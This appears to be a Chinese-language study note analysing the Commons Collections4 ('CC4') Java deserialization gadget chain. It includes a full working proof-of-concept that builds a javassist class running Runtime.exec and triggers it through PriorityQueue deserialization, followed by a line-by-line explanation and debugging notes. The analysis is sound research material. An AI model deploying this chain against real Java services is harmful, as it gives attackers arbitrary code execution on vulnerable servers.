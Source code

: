## 简介
CC4 相当于 CC2 + CC3 的结合，在ysoseria中CC4提及的是，`Variation on CommonsCollections2 that uses InstantiateTransformer instead of InvokerTransformer.`
也就是说CC4 只需要在CC2的基础上（javassist）将`InvokerTransformer`修改成`InstantiateTransformer`,`InstantiateTransforme` 在CC3中可以知道，实现了Transformer，Serializable接口，在它的transform方法中，实现了当传入的input为class时，可以直接获取其对应的构造函数直接实例化并返回，要达到使用`InstantiateTransforme` 的transform方法，这时又离不开`TrAXFilter`的构造函数，在其实例化之后就能调用`TransformerImpl`的`newTransformer`方法，最后实现调用恶意代码
### 前置知识
[Commons Collections2 分析](https://www.yuque.com/da-labs/secnotes/fbvuia)
[Commons Collections3 分析](https://www.yuque.com/da-labs/secnotes/zvy4dv)

### 环境

- jdk1.8
- commons collections4
### 利用链
```
ObjectInputStream.readObject()
			PriorityQueue.readObject()
				...
					TransformingComparator.compare()
						ChainedTransformer.transform()
                ConstantTransformer.transform()
                InstantiateTransformer.transform()
                newInstance()
                      TrAXFilter#TrAXFilter()
                      TemplatesImpl.newTransformer()
                            TemplatesImpl.getTransletInstance()
                            TemplatesImpl.defineTransletClasses
                                newInstance()
                                      Runtime.exec()
```
## POC
```java
package com.myproject;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class TestCC4 {
    public static void main(String[] args) throws Exception{
        PriorityQueue queue = new PriorityQueue(1);
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("cat");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
        cc.makeClassInitializer().insertBefore(cmd);
        String randomClassName = "EvilCat" + System.nanoTime();
        cc.setName(randomClassName);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        byte[] classBytes = cc.toBytecode();
        byte[][] taegetClassBytes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field field = templates.getClass().getDeclaredField("_bytecodes");
        field.setAccessible(true);
        field.set(templates,taegetClassBytes);
        Field field1 = templates.getClass().getDeclaredField("_name");
        field1.setAccessible(true);
        field1.set(templates,"123");
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
        };
        ChainedTransformer chain = new ChainedTransformer(transformers);
        queue.add(1);
        queue.add(1);
        TransformingComparator Tcomparator = new TransformingComparator(chain);
        Field comparator_field = PriorityQueue.class.getDeclaredField("comparator");
        comparator_field.setAccessible(true);
        comparator_field.set(queue,Tcomparator);
        try{
            FileOutputStream fileOutputStrem = new FileOutputStream("cc4.ser");
            ObjectOutputStream outputStream = new ObjectOutputStream(fileOutputStrem);
            outputStream.writeObject(queue);

            FileInputStream fileInputStream = new FileInputStream("cc4.ser");
            ObjectInputStream inputStream = new ObjectInputStream(fileInputStream);
            inputStream.readObject();

        }catch(Exception e){
            e.printStackTrace();
        }

    }
}

```
![image.png](Commons Collections4 分析.assets/2023_05_19_10_37_25_uGqCkxoU.png)



## 分析
### 0x1
```java
PriorityQueue queue = new PriorityQueue(1);
```
[CC2](https://www.yuque.com/da-labs/secnotes/fbvuia)中我们可以知道，为什么明明PriorityQueue的构造函数中可以传入`TransformingComparator`的实例，但是我们却不使用可以传入`TransformingComparator`实例的构造方法，因为在传入之后，会直接调用`TransformingComparator`实例的方法，导致在还没有序列化的时候程序就已经crash了，这一步是实现CC2，CC4的关键
### 0x2
通过javasisst创建恶意代码，并将恶意代码写入到TemplatesImpl实例化后的`_bytecodes`,`_name`参数中，详情看[Commons Collections3 分析](https://www.yuque.com/da-labs/secnotes/zvy4dv)
```java
ClassPool pool = ClassPool.getDefault();
pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
CtClass cc = pool.makeClass("cat");
String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
cc.makeClassInitializer().insertBefore(cmd);
String randomClassName = "EvilCat" + System.nanoTime();
cc.setName(randomClassName);
cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
byte[] classBytes = cc.toBytecode();
byte[][] taegetClassBytes = new byte[][]{classBytes};
TemplatesImpl templates = TemplatesImpl.class.newInstance();
Field field = templates.getClass().getDeclaredField("_bytecodes");
field.setAccessible(true);
field.set(templates,taegetClassBytes);
Field field1 = templates.getClass().getDeclaredField("_name");
field1.setAccessible(true);
field1.set(templates,"123");
```
### 0x3
ChainedTransformer类会把我们的Transformer变成一个串，用于执行transform方法链式调用transformers[]
给队列赋值
```java
Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
};
ChainedTransformer chain = new ChainedTransformer(transformers);
queue.add(1);
queue.add(1);
```
### 0x4
当赋值操作完成之后，再对comparator进行赋值操作，这样就能在赋值操作前不直接crash掉，并且在反序列化的时候comparator不为空，又能直接调用transform方法
```java
TransformingComparator Tcomparator = new TransformingComparator(chain);
Field comparator_field = PriorityQueue.class.getDeclaredField("comparator");
comparator_field.setAccessible(true);
comparator_field.set(queue,Tcomparator);
```
## 调试
在调试过程中，前部分同CC2，一直到`comparator.compare()`,comparator为反射传入的Tcomparator，当调用compare方法时，就会执行`this.transformer.transform(obj1)`,最后就回直接到TraXFilter的构造函数里，执行newTransformer

![image.png](Commons Collections4 分析.assets/2023_05_19_10_37_26_CRLvOmsI.png)

最后在getTransletInstance函数里，将传入的字节码实例化

![image.png](Commons Collections4 分析.assets/2023_05_19_10_37_26_vAOWG2n4.png)

